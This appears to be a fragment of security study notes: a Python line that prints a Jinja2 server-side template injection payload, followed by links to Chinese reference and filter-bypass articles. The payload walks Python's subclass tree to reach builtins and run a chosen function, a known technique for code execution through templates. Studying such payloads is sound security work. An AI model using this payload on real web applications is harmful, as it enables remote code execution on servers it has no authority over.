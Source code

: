 ```python
                        else:
                            print("{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='" + i.__name__ + "' %}{{ c." + attr + ".__globals__['__builtins__']." + goal + "(\"[evil]\") }}{% endif %}{% endfor %}")
```

参考文章 ： https://www.cnblogs.com/hackxf/p/10480071.html

绕过 https://www.cnblogs.com/zaqzzz/p/10263396.html
